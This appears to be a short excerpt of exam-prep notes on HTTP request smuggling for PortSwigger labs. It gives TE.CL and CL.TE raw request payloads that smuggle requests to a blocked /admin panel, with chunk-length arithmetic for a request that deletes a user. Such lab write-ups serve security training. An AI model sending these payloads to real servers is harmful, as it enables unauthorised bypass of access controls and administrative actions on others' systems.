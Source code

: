 ```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

> Calculating TE.CL (Transfer-Encoding / Content-Length) smuggle request length in **HEXADECIMAL** and the payload is between the hex length of **71** and the terminating **ZERO**, not including the ZERO AND not the preceding `\r` on line above ZERO, as part of length. The initial POST request **content-length** is manually set.

> When sending the `/admin/delete?username=carlos` to delete user, the transfer encoding hex length is changed from `71` to `88` hexadecimal value to include extra smuggled request size.

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)

#### CL.TE multiCase - Admin blocked

> When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner _**identify**_ the vulnerability as `CL.TE multiCase (delayed response)`.

> To access the admin panel, send below request twice, adding the second header `Content-Length: 10` prevent the HOST header conflicting with first request.

```html
POST / HTTP/1.1
Host: TARGET.net
Cookie: session=waIS6yM79uaaNUO4MnmxejP2i6sZWo2E
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
tRANSFER-ENCODING: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
